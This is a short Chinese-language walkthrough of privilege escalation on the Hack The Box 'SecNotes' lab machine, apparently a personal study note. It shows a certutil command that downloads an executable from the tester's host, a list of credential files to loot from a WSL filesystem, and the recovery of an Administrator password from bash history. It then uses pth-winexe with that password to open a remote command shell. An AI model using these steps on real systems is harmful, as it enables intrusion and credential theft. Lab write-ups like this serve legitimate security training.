

# SecNotes 提權

C槽看到Distros這個奇怪的目錄，進去後有個ubuntu目錄裡面有個ubuntu.exe檔，執行之後會當機，查了一下發現這是利用 Windows 子系統 Linux 版 (WSL) 將權限提升至管理員。

certutil -urlcache -split -f [http://10.10.14.10:80/](http://10.10.14.9/a.exe)a.exe a.exe(winPEASx64.exe)改名版
用winpeas跑跑看。

查了一下知道以下資訊

- 這是完整的 WSL Ubuntu filesystem
- 不是單純 launcher
- 可以直接從 Windows 存取 Linux 檔案

這種WSL通常會藏:

| 檔案 | 用途 |
| --- | --- |
| `.bash_history` | 明文密碼 |
| `id_rsa` | SSH |
| `.git-credentials` | token |
| `.env` | DB creds |
| `shadow` | hash crack |
| `wp-config.php` | WP creds |

dir /s *history* (找有history這個字眼的所有檔案)

找到這個目錄下的.bash_history檔

去該目錄下type它，得到smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$

pth-winexe -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' [//10.129.6.181](https://10.129.6.181/) cmd.exe

| 部分 | 意思 |
| --- | --- |
| `pth-winexe` | 支援 Pass-the-Hash 的 winexe |
| `-U` | 指定帳號密碼 |
| `administrator` | 使用 Administrator 帳號 |
| `%` | 分隔帳號與密碼 |
| `u6!4ZwgwOM#^OBf#Nwnh` | Administrator 密碼 |
| `//10.129.6.181` | 目標 Windows |
| `cmd.exe` | 遠端執行 cmd |

提權成功

參考文章

https://medium.com/@joshuasuren/hack-the-box-secnotes-write-up-28-80b71aaa8561
https://medium.com/@JBXSec/htb-secnotes-walkthrough-a49f9bcefb85